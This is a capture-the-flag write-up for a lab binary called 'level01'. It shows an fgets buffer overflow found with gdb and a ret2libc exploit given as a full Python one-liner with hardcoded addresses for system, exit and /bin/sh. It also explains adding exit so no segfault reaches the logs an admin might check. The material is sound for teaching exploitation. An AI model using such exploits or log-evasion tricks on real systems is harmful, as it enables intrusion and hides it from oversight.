





# Level01

The program waits an input. Let's use [gdb](Ressources/gdb.md) to understand what's going on. 

We can find corresponding username and password (`dat_wil` and `admin`)

It doesn't work. But, the program doesn't launch `system` for example anywhere and the right credentials don't help us.

So, we can see the `main` uses `fgets` and we must use it vulnerability to trigger a buffer overflow.
Using our [trusty pattern generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) and EIP offset tool, we crash the program and find we can overwrite the EIP at offset `80`.

Let's use ret2libc attack which will overwrite the EIP return address with a particular libc function address directly.

In this case, we're going to overwrite the EIP with the address of `system`, `/bin/sh`, and `exit`.

Why bother add the `exit`? Because if we don't, then the shell will `segfault` upon exit – which will be recorded in the `dmesg` logs and visible to any system admin who looks. 
So basically, to erase our footsteps!

Let's find those addresses:

- `system` = 0xf7e6aed0
- `exit` = 0xf7e5eb70
- `/bin/sh` = 0xf7f897ec

Our exploit looks like:

`(python -c 'print "dat_wil\n" + "A"*80 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level01`

